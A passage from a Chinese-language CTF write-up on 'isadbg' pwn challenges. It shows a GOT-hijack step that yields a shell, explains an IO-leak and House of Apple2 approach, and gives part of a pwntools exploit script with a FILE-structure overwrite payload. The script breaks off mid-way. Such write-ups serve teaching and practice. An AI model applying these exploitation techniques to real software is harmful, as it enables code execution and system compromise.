 	[ins] In [10]: hex(libc_base + libc.sym.system)
	Out[10]: '0x7fea62a50d70'
	```

	- 劫持 got 表项完成利用：
	```bash
	isadbg> set 0x5559a9e81058 0x7fea62a50d70
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	sh;
	sh-5.2$
	```

完整利用截图如下：

![[static/wp-infosec2024-2.png]]

---
## isadbg 免费版

这道题有两个考查点：

1. IO leak
2. 在新版本 libc 下拥有了**全局任意读写**能力后怎么 getshell

第一步的 IO leak 需要爆破 $\frac{1}{16}$ 的概率，第二步则非常自由，可以再次使用 IO leak 去泄漏 libc 中 environ 变量的内容得到栈地址，回到栈上进行 ROP。或者可以用 IO 相关的攻击，下面演示了 House of Apple2 的利用：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc(
    "/home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6"
)

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(data):
    ru(b"> ")
    sl(data)


def send_payload(base, payload):
    cmd(b"set " + hex(base).encode())
    ru(b"Send your data:\n")
    s(payload)


luckybit = __import__("random").randint(1, 15)

send_payload(0x404020, flat([0xFBAD1887, 0, 0, 0]) + p16(0x700 | (luckybit << 12)))
rn(8)
```